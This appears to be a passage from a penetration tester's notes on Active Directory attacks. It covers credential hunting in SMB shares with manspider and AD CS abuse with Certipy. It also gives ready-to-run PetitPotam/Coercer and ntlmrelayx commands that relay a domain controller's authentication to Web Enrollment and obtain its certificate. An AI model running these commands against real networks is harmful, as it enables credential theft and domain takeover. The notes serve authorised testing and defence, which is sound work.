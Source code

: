 SMB shares are quite often full of credentials, secrets, or other information which can be used to move laterally or escalate privileges.

Once some credentials are obtained I tend to run [manspider](https://github.com/blacklanternsecurity/MANSPIDER) on active networks in search of typically simple words like "password". 

Few things to be aware of here, `manspider` will store loot files by default in `~/.manspider/loot` so if your filesystem is running low on storage you may want to turn that off. I also tend to add a fair number of `--exclude-extension` arguments to limit the error messages.

`manspider`


### Active Directory Certificate Services <a name="3.4"></a>

This is the gift that keeps on giving. 


#### Certipy <a name="3.4.1"></a>

[Certipy](https://github.com/ly4k/Certipy) is my goto tool for finding AD CS issues and exploiting them.

`certipy find -u joe@acme.com -p 'P@ssw0rd' -dc-ip 192.168.1.235 -enabled`


#### Web Enrollment <a name="3.4.2"></a>

This is almost vulnerable by default. A lot of organizations are still unaware of the issues surrounding AD CS. Even if certificates aren't used or are vulnerable, if there is a CA, Web Enrollment almost always is exploitable.

It could potentially be exploited with 0 authentication if you get lucky. If a DC is vulnerable to [PetitPotam](https://github.com/topotam/PetitPotam) and you can coerce without requiring a set of credentials, you can just run `ntlmrelayx` and try guessing the common default certificate templates like `DomainController` `DomainControllerAuthentication` etc. This isn't very common though, and if the DC is that behind in patches you probably have other serious issues.

Trying with no auth:

`ntlmrelayx.py -t http://ca-srv/certsrv/default.asp --template DomainController -smb2support`

`PetitPotam.py 192.168.2.41 192.168.1.235`

You can also try with [Coercer](https://github.com/p0dalirius/Coercer).

Otherwise, you'll just pass `PetitPotam`, or `Coercer` some credentials to exploit.

`ntlmrelayx.py -t http://ca-srv/certsrv/default.asp --template DomainController -smb2support`

`PetitPotam.py -u joe -p 'password' 192.168.2.41 192.168.1.235`

One thing to note, in some enviroments a DC has the CA role. I don't believe you can relay the connection back to the same DC/CA so be sure you point `PetitPotam` or `Coercer` at another server.

Save and decode the base64 certificate you captured with `ntlmrelayx` to a *.pfx file.   

`cat ca01.b64 | base64 -d > dc1.pfx`

Then try auth with `certipy` or [PKINITtools](https://github.com/dirkjanm/PKINITtools).
